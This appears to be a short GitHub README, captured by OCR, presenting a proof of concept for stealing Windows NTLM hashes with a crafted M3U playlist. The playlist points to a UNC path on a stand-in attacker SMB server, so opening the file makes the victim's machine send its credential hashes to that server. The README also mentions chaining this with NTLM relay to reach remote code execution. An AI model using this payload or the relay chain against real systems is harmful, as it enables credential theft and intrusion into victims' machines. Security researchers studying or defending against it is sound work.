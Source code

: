 # NTLM-THEFT VIA M3U FILE 

Rather than exploiting the vulnerability in Microsoft Word files or Outlook’s handling of RTF files, an attackers will take the 

advantage of "M3U file extension Audio Playlist" a  file that stands for MP3 URL, the m3u file , isn't an actual audio file in and 

of itself. 

An M3U file just points to audio (and sometimes video) files so that a media player can queue them for playback. These text-based 

files can contain URLs and/or absolute or relative pathnames to the media files and/or folders.

The attacker can then use this to inject malicious content into a “M3U” file  ex : SMB Server , so when that file  is opened, the 

target automatically leaks credentials in the form of NTLM hashes.

# NOTE:  RCE can be achieved by chaining NTLM theft with smb signing disabled using ntlm relay .




Tested on windows 7  “all player"



PoC :

#EXTM3U
#EXTINF:-1,leak_it_please

\\attacker_smb_server\ROPNOP


![Alt text](https://raw.githubusercontent.com/kofa2002/NTLM-THEFT/master/Screenshot%20from%202019-05-04%2008-11-15.png?token=AB5ULGT5JPE2CEWY65V6ZWC44PVTW "NTLM Leaked")

Save it as m3u extention.

Author : Soufian El Hachmi
